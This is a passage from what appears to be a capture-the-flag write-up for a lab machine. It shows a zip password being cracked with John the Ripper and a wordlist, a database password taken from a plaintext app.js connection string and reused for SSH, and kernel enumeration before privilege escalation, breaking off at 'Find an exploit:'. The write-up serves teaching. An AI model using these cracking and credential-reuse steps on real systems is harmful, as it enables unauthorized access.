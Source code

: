 Let's use John once again to crack the zip archive's password:

~~~
$ /data/src/john/run/zip2john backup.zip > backup.hash
$ /data/src/john/run/john backup.hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magicword        (backup.zip)
1g 0:00:00:00 DONE (2020-06-25 10:13) 16.66g/s 3276Kp/s 3276Kc/s 3276KC/s sandrad..pigglett
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

The uncompressed archive reveals many file, but the `app.js` script at the root of `var/www/myplace/` reveals mark's credentials in clear text:

~~~
$ head -n 12 var/www/myplace/app.js 

const express     = require('express');
const session     = require('express-session');
const bodyParser  = require('body-parser');
const crypto      = require('crypto');
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const path        = require("path");
const spawn        = require('child_process').spawn;
const app         = express();
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
~~~

User password: `5AYRft73VtFpc84k`

You can now connect to SSH as mark with the password `5AYRft73VtFpc84k`.


# #2 - What is the root flag?

## The easy way

The machine is running `Ubuntu 16.04.3` with a an old kernel (`4.4.0-93`):

~~~
mark@node:/tmp$ cat /etc/issue
Ubuntu 16.04.3 LTS \n \l
mark@node:/tmp$ uname -a
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
~~~

Find an exploit:
